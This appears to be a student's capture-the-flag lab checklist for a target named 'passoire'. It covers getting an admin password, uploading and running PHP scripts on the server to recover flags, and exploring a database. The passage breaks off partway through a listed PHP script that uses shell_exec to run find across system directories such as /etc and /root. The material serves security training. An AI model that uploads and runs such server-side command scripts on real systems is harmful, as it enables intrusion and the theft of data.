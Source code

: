 **Get password for admin**

- [ ] Password for 'admin' found with `**get_credentials.py**` 

​	Run the script **`get_credentials.py`** (locally) and get the password. Try logging in on web service with credentials

​	Password: 

**Upload and run `get_flag_14.php` (Here we need the password from get_credentials.py)**

- [ ] flag 14. id:

**Upload and run `get_binary_file.php` to get my_cryptographic_algorithm binary file**

​	Save text output in browser as get my_cryptographic_algorithm

​	Run **`base_64_to_binary.py`** to convert the file to binary

​	In the terminal run: `strings cryptographic_algorithm | less`

- [ ] flag 11. id:

**Explore mysql database**

**Upload and run** **`explore_mysql_db.php`** (may require a different password)

- [ ] flag 5. id:



## Scripts

(all php-scripts are uploaded to passoire and run in the web environment)

**`test.php`**

```
<?php
phpinfo();
?>
```

**`get_known_flags.php`**

```
<?php
echo "<pre>";

// Define directories to search (avoiding problematic ones)
$search_dirs = array(
    '/passoire',
    '/etc',
    '/var',
    '/home',
    '/root',
    '/usr'
);

// Format directories for command
$dir_string = implode(' ', $search_dirs);

echo "Searching in directories: " . $dir_string . "\n\n";

// Search for files named flag_*
echo "Searching for files named flag_*:\n";
$find_command = "find $dir_string -name 'flag_*' 2>/dev/null";
$files = shell_exec($find_command);
echo $files . "\n";

// Search through files for flag pattern
echo "\nSearching file contents for flag pattern:\n";
```